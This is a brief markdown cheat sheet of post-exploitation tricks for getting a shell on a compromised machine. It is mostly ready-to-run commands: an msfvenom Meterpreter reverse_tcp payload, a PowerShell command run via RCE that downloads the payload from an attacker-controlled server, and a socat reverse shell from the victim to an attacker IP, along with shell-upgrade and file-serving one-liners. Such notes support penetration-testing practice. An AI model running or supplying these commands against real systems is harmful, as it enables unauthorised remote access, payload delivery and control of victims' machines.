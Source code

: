 ## Some useful tricks that could be useful to get a shell

#### 1. I have a RCE on windows box and I need to get a shell... Wget with Powershell!

* Obtain your payload with msfvenom or similar:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<lhost> LPORT=<lport> -f exe > payload.exe
```

* Execute through your RCE on windows box:

```
command = "PowerShell -Command \"wget 'http://your_controlled_server/payload.exe' -OutFile reverse.exe\"" # command to run with RCE
```

Execute your payload (now called "reverse.exe") using RCE and setup a listening with msf multi-handler.

*Obs: Obviously, this method may not work well due to permission conditions and so on. This is out-of-scope... it's just a trick! :-)*

#### 2. I need to transfer files (like my payloads) between VMs/hosts

* You can setup a simple web server using Python or PHP.
	+ Python:

	```python
	python -m SimpleHTTPServer 8080
	```
	
	And a simple HTTP server will be listening on your 8080 TCP port.
	
	+ PHP:

	```php
	php -S 127.0.0.1:8080
	```
	And a simple HTTP server will be listening on 127.0.0.1:8080.
	
#### 3. Upgrading simple shells to TTYs (or something close to it)

* Python with "pty":

```python
python -c "import pty;pty.spawn('/bin/bash');"
```
* Socat

On your localhost (attacker):

```
socat file:`tty`,raw,echo=0 tcp-listen:443
```

On your victim:

```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<LHOST_IP>:443
```

## Interesting links to read!

https://blog.ropnop.com/transferring-files-from-kali-to-windows/ (A lot of techniques to transfer files from attacker machine to a windows box)  
https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/ (Upgrading simple shells techniques)

